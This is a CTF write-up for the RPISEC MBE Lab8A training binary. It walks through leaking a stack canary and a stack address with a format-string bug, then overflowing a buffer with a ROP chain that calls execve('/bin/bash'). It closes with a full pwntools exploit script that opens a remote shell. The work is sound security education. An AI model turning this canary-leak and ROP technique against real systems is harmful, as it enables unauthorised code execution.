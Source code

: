 ```yaml
---
layout: post
title:  "MBE Lab8A Writeup"
---
```


## Introduction
In this article I will summaries how I solved [MBE](https://github.com/RPISEC/MBE) Lab8A CTF Challenge.

## Writeup
The challenge starts with a standard ELF binary named lab8A.
Going through my usual ritual, I first check for memory mitigations:

* Stack canaries
* Stack non executable
* No Position Independent Executable
* ASLR

Identifying the file

```shell
root@warzone:/levels/lab08
# file lab8A
lab8A: ELF 32-bit LSB  executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=760ccd5bdb365cd6acbc1befc07e58fec83743a1, not stripped
```

And it seems the ELF is statically-linked and not stripped.<br/>
During my static analysis with IDA, I have found two very strong primitives.<br/>
A controlled format string within the `selectABook()` function:

And a buffer-overflow within the `findSomeWords()` function:

Now I am aware of the stack canaries mitigation which will prevent me from exploiting the buffer-overflow primitive to gain EIP control.<br/>
However though using the format-string primitive, I can read memory right off the stack, especially the stack canary! And because the stack canary is stored within the thread local data, it is the same for all of the functions running on the main thread. Therefore letting me use it later within the buffer-overflow primitive to bypass the canary check.

From the function’s prologue I can tell the stack frame size is 528:

```shell
;08048f0b selectABook:
    push   ebp ; -4
    mov    ebp,esp
    sub    esp,0x20c ; -524
    ; -528 in total.
```

The stack canary is placed right under the saved ebp, that means at `[ebp-4]`, or `[esp+524]`. Printf’s parameters start at `[esp+4]`, `[esp+8]`, …,<br/>
So that means that if `[esp+4]` is the first argument to printf, then `[esp+524]` will be the `$(524\div4)=130$` argument to printf.<br/>
I can use the direct parameter access format: `printf("%130$x");` to print the stack canary’s value in hex.

An additional check has been implemented within the findSomeWords function. Which I will be able to pass by setting 17th element of my buffer to 0xDEADBEEF.

I then went on searching for unsafe functions within the binary, like `system()` and all of the forms of the `exec()` functions. But came empty handed. It was time for a ROP chain. I can create a ROP chain to call the `execve` syscall. From [Linux Syscall Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) I can see the `execve` documentation:

In order to use the syscall to call `/bin/bash`, I can set `envp` and argv to `NULL`, in other words `edx` and `ecx` to 0, `ebx` must point to an address which contains the string `“/bin/bash”`, and `eax` needs to contain `0x0b`, before calling int `0x80` to trigger a syscall.<br/>
Luckily because the ELF is not position independent I can avoid an extra info leak from the ELF address space to construct my ROP chain. The only issue is, I don’t have any addresses within the ELF containing the `“/bin/bash”` string, so I must create one. I can use the stack frame of `selectABook` to store the string and later reference it within my ROP chain. However because it will be stored within the stack, and ASLR is turned on, I need an address leak from the stack. The format-string primitive not only enables me to leak the canary, but also leak a stack address, and store the `“/bin/bash”` string on the stack, using: `printf("%p%130$x/bin/bash");` such that:

* %p
  * will leak the address of the 1st argument which is stored on stack, therefore leaking a stack address, which I will use to calculate the address of “/bin/bash” stored later.
* %130$x
  * As we have seen will leak the canary
* /bin/bash
  * will be stored on the stack, which I will use later in my ROP chain.
  In order to construct my ROP chain I used [ROPgadget.py](https://github.com/JonathanSalwan/ROPgadget) and came up with the following chain:

```shell
pop edx, pop ecx, pop ebx, retn ;0x0806F250
pop eax, retn ;0x080E4809
int 0x80 ;0x0806CD55
```

It is important to note that due to the large buffer overflow, I can insert whatever I want into the stack, and thus using the pop instruction as some kind of “mov”. In summary, the state of the stack will look like:

Running the full exploit:

![POC](/assets/img/poc.png)

And I am done.

Adding the exploit code for reference:

```python
from pwn import remote, p32
from pwn import log as pwnlog

REMOTE_HOST = '192.168.0.111'
REMOTE_PORT = 8841

def main():
    with remote(REMOTE_HOST, REMOTE_PORT) as r:
        r.recvuntil(b"Last Name: ")
        r.sendline(b"%pG%130$x/bin/bash")

        # Leaking stack address (ebp-0x204)      
        leak = int(r.recvuntil(b"G")[:-1].strip().decode(), 16)
        binbash_address = leak + 9
        pwnlog.success("Leaked stack address: 0x%x" % leak)
        pwnlog.success("Calculated binbash address: 0x%x" % binbash_address)

        # Read canary
        canary = int(r.recvuntil(b"/")[:-1].strip().decode(), 16)
        pwnlog.success("Leaked canary: 0x%x" % canary)

        # Finish recusion
        r.sendline(b"A")
        r.recvuntil(b"^_^ <==  ")

        # Build ropchain
        pwnlog.info("Sending ROP chain")
        r.send((b"A" * 16) + p32(0xDEADBEEF) + (b"A" * 4) + p32(canary) + b"JUNK" + p32(0x0806F250) + p32(0x0) + p32(0x0) + p32(binbash_address) + p32(0x080E4809) + p32(0xB) + p32(0x0806CD55))      
        r.interactive()

if __name__ == "__main__":
    main()
```
